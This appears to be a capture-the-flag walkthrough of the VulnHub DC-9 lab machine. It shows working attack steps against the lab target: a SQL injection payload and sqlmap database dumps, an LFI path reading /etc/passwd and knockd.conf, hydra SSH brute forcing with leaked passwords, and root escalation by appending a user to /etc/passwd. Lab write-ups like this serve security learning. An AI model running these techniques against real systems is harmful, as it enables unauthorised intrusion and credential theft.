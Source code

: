 ***Target: 10.0.0.38***  
***Difficulty: Medium***  
***Source: https://www.vulnhub.com/entry/dc-9,412/***

## ***NMAP***

    $ nmap -sS -T4 -p- 10.0.0.38

    PORT   STATE    SERVICE
    22/tcp filtered ssh
    80/tcp open     http

SSH is filtered, my guess is we are gonna need to use a proxy or reverse shell from the site hosted on the web server in order to get access to the machine.

## ***HTTP***

![image](https://user-images.githubusercontent.com/76552238/159251710-e435074b-978f-493b-a36b-f46a9c94d80d.png)


Going to ***http://10.0.0.38***, we have a couple of pages.

![image](https://user-images.githubusercontent.com/76552238/159251755-e9b6b7bf-e775-4b83-b4f6-4d488e0d892a.png)

![image](https://user-images.githubusercontent.com/76552238/159251806-64afcca9-5670-443f-b1d8-e4e62112d58a.png)

We have a login page and a search page. 

When passing ***' OR 1=1 #*** in the search query we can see all of the available results. 

![image](https://user-images.githubusercontent.com/76552238/159251940-90ed3642-43fe-40fc-94fd-3b30a66fe3b9.png)

![image](https://user-images.githubusercontent.com/76552238/159251999-a3cf9f93-c14f-4bc6-ad5c-6064a4f05659.png)
![image](https://user-images.githubusercontent.com/76552238/159252041-68f5c9c0-994d-4144-afaa-dcfb1e99c742.png)

This means ***http://10.0.0.38/search.php*** is vulnerable to SQLi (SQL Injection).  
This means we are going to need to use the 'sqlmap' command.

![image](https://user-images.githubusercontent.com/76552238/159252456-b47ada91-88a3-4d92-8f46-e508dd89f1e7.png)

Since the search doesn't send a GET request and takes arguments from the url, we are going to need to download the 'results.php' using Burp Suite and use 'sqlmap' on it.

![image](https://user-images.githubusercontent.com/76552238/159253323-2201f765-7978-4332-98c6-456688485c4e.png)

    $ sqlmap -r sqli.txt --dbs --batch

![image](https://user-images.githubusercontent.com/76552238/159254220-8b5349a7-d06f-4944-9d2b-45d9974a4c4a.png)

Let's enumerate the 'users' database.

    $ sqlmap -r sqli.txt -D users --tables --columns --dump

![image](https://user-images.githubusercontent.com/76552238/159254378-2ae30d95-e066-4481-bab3-ee9d53fc4523.png)

    $ sqlmap -r results.txt -D Staff --tables --columns --dump

![image](https://user-images.githubusercontent.com/76552238/159254639-bcb0fa36-9322-43cf-aaf2-066d1e2252b8.png)

The password seems to be hashed, let's see if we can crack it.

![image](https://user-images.githubusercontent.com/76552238/159254866-0a2ac8e4-7580-4a22-990e-b3979f4b6397.png)

<!--Hash crack: transorbital1-->

We now have the credentials in order to be able to log into the site.

![image](https://user-images.githubusercontent.com/76552238/159255011-26343b8f-45e0-4c93-82ff-337d13b3febc.png)

![image](https://user-images.githubusercontent.com/76552238/159255042-55926749-ce57-4550-b5bd-5c49cac6a2b8.png)

After logging in as the user 'admin' we can see that ***http://10.0.0.38/manage.php*** shows and error.

![image](https://user-images.githubusercontent.com/76552238/159255092-ab5a32ba-972b-400d-bb53-a21614b82dfc.png)

This might be an indicator that this page is vulnerable to LFI (Local File Inclusion).

Let's try using 'file' as the parameter name.  
***http://10.0.0.38/manage.php?file=../../../../../../etc/passwd***

![image](https://user-images.githubusercontent.com/76552238/159257886-5d3c83a7-0d5a-4dc7-9431-241132d8ff94.png)

Now at this point I got a little stuck I didn't know what files to read. So I traced my steps and saw that SSH is filtered, this might be a sign that we should use Port Knocking (A method of externally opening ports on a firewall by generating a connection attempt on a set of prespecified port. The primary purpose of Port Knocking is to prevent an attacker from scanning a system for potentially exploitable services by doing a port scan, because unless the attacker sends the correct knock sequence, the protected ports will appear closed, our in our case filtered).   

Turns out when Port Knocking is enabled, it must have a config file at '***/etc/knockd.conf***' ---> ***https://www.tecmint.com/port-knocking-to-secure-ssh/***

So let's see if the file exists.

***http://10.0.0.38/manage.php?file=../../../../../../etc/knockd.conf***:

![image](https://user-images.githubusercontent.com/76552238/159258133-46e36618-c5c4-4a98-ba35-394ded5bdd28.png)

<!--[options] UseSyslog [openSSH] sequence = 7469,8475,9842 seq_timeout = 25 command = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCEPT tcpflags = syn [closeSSH] sequence = 9842,8475,7469 seq_timeout = 25 command = /sbin/iptables -D INPUT -s %IP% -p tcp --dport 22 -j ACCEPT tcpflags = syn -->

The ports are [7468, 8475, 9842].  
We can use the command 'knock' that allows use to Port Knock ports on the machine.

    $ knock 10.0.0.38 7469 8475 9842
    $ nmap -sS -T4 -p- 10.0.0.38

![image](https://user-images.githubusercontent.com/76552238/159258301-c87a1fea-73b7-4cf2-a770-7b8be4333c37.png)

SSH is open :) . We can now brute force the SSH login using the credentials we found in the SQL database.

    $ hydra -L users.txt -P passwords.txt ssh://10.0.0.38 -IV

![image](https://user-images.githubusercontent.com/76552238/159258865-b15c5956-2cb8-42b2-9d12-b71abb1ba837.png)

![image](https://user-images.githubusercontent.com/76552238/159258892-856a0a0b-838f-4d45-a629-ed3bbb622239.png)

![image](https://user-images.githubusercontent.com/76552238/159258927-3d27e536-a4d4-4dd1-8334-2e19ddf5bbda.png)

## ***PRIVILEGE ESCALATION***

I logged in as the user 'joeyt' and found nothing in his home directory, he also is not able to run sudo on the machine. 

![image](https://user-images.githubusercontent.com/76552238/159259109-05ce9f9d-2a28-431d-86f3-c01e74d569b2.png)

The user 'chandlerb' was the same story. But the user 'janitor' had a secret directory for Putin that held a couple of passwords.

![image](https://user-images.githubusercontent.com/76552238/159259234-0958a94f-b758-4fd9-869f-c330c170c298.png)

### ***/home/janitor/.secrets-for-putin/passwords-found-on-post-it-notes.txt:***

    BamBam01
    Passw0rd
    smellycats
    P0Lic#10-4
    B4-Tru3-001
    4uGU5T-NiGHts

One of this passwords must be for another user we found in the sql database.
Let's brute force SSH once again.

    $ hydra -L users.txt -P passwords-found-on-post-it-notes.txt ssh://10.0.0.38 -IV

![image](https://user-images.githubusercontent.com/76552238/159259466-dc7a61c5-bbde-480b-a993-7caf3eb4fbc6.png)

    $ sudo -l

    User fredf may run the following commands on dc-9:
        (root) NOPASSWD: /opt/devstuff/dist/test/test

After logging as the user 'fredf' and checking his root permissions we find our that the user 'fredf' can run the file ***/opt/devstuff/dist/test/test*** as root.

    $ /opt/devstuff/dist/test/test

![image](https://user-images.githubusercontent.com/76552238/159259713-dd24ff58-3e4a-439f-8d40-26ab5502f24b.png)

Let's try to find a file on the machine by the name of 'test.py'.

    $ find / -name test.py 2> /dev/null

![image](https://user-images.githubusercontent.com/76552238/159259867-43e62441-07ca-4625-b282-cfa2d5f998a8.png)

We can read the script:

    $ cat /opt/devstuff/test.py

    #!/usr/bin/python

    import sys

    if len (sys.argv) != 3 :
        print ("Usage: python test.py read append")
        sys.exit (1)

    else :
        f = open(sys.argv[1], "r")
        output = (f.read())

        f = open(sys.argv[2], "a")
        f.write(output)
        f.close()

After running the command ***/opt/devstuff/dist/test/test*** it outputs out the syntax for the command ***/opt/devstuff/test.py***. After finding and reading it, we can find out that the command adds (appends) the content of the first file onto the second file, the same as '>>'.

    e.g. test1.txt = "Hello World", test2.txt = "Linux is better then Windows"
    /opt/devstuff/dist/test/test test1.txt test2.txt
    test2.txt = Hello World\nLinux is better then Windows

I played with it a bit and we can't add our own exploit to ***/opt/devstuff/dist/test/test***. We also can't add some malicious python code to ***/opt/devstuff/test.py***.

I searched online for "linux edit files for privilege escalation" and found this article that shows we can add a new line to the ***/etc/passwd*** file and thus create a new user with root permissions ---> ***https://infinitelogins.com/2021/02/24/linux-privilege-escalation-weak-file-permissions-writable-etc-passwd/***

By coping the line of the root user in ***/etc/passwd*** (root:x:0:0:root:/root:/bin/bash) and adding a generated password using 'openssel', we can add a new line to ***/etc/passwd*** on the remote machine and add a new user with root permissions.

    Local Machine:
    
    $ openssl passwd newpassword

    Warning: truncating password to 8 characters
    AwDy7JH2.fkcQ

>

    Remote Machine:

![image](https://user-images.githubusercontent.com/76552238/159260997-6ee83b69-8847-40c0-9ffe-d1b208573795.png)

## ***/root/theflag.txt:***

![image](https://user-images.githubusercontent.com/76552238/159261835-c0b3825f-98f9-4bc3-a9d3-4cdacad1b831.png)

By getting a shell as root and the final flag we finished the CTF.
